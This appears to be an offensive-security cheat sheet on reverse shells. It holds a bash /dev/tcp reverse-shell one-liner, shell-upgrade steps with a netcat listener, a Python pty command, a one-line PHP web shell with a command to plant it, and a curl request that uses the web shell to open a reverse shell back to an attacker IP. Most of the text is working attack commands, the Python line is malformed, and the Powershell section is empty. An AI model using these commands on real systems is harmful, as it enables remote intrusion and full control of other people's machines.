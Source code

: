 # Reverse Shells

## One-Liners

### Bash
Easy Bash
```
bash -c "bash -i >& /dev/tcp/<IP>/<port> 0>&1"
```
* **Shell Upgrades**
  ```bash
  root@target:/backend# script /dev/null -c bash
  script /dev/null -c bash            
  Script started, file is /dev/null
  root@target:/backend# ^Z                 
  [1]+  Stopped                 nc -lnvp 1337
  chuxtr@kali$ stty raw -echo; fg
  nc -lnvp 1337
            reset
  reset: unknown terminal type unknown
  Terminal type? screen
  root@target:/backend#
  ```
* **Python Shell Upgrade
  ```bash
  python -c ('import pty; pty.spawn("/bin/bash")'
  ```
### PHP
Simple PHP WebShell
```bash
<?php system($_GET["Chuxtr"]); ?>
```
Example
```bash
echo '<?php system($_GET["Chuxtr"]); ?>' > Chuxtr.php
```
Usage
```bash
# This example produces a bash shell back to the host (Note the URL encoding)
root@kali# curl 'http://127.0.0.1:52846/Chuxtr.php?chuxtr=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.7/1337%200%3E%261%27'
```
## Scripts
### Powershell

